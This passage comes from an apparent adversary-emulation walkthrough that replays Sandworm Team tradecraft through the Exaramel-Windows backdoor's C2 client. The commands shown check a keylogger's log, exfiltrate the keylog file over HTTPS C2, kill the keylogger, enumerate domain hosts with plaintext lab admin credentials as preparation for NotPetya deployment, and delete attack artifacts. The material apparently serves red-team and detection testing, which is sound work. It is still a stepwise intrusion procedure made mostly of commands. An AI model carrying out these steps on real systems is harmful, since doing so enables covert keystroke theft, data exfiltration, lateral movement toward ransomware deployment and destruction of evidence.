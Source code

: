 ```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dir C:\\Windows\\System32\\mslog.txt"
```

Confirm the keylogger actually logged keystrokes:

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd type C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

Exfil the keylog file over the Exaramel-Windows C2 session (HTTPS).

:warning: Exaramel-Windows automatically RC4 encrypts the keylog file before exfiltration.

```bash
# Exaramel for Windows automatically encrypts files before sending them to the C2 server.

./evalsC2client.py --set-task Exaramel-Windows "put-file C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L94)

Confirm you uploaded the keylog file; you should see an RC4 encrypted blob.

```bash
cat files/mslog.txt
```

Terminate the keylogger

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd taskkill /F /IM mslog.exe"
```

Enumerate all domain hosts (prep for notpetya deployment)

```bash
# Sandworm Team has used a tool to query Active Directory using LDAP, discovering information about computers listed in AD.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dsquery.exe computer -s 192.168.30.191 -u testlab\\domain.admin -p T3stT3@m#123"
``` 

Cleanup artifacts.

```bash
# Sandworm Team has used backdoors that can delete files used in an attack from an infected system.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd del /Q C:\\Windows\\System32\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt"
```

:warning: Go back to the gammu RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/
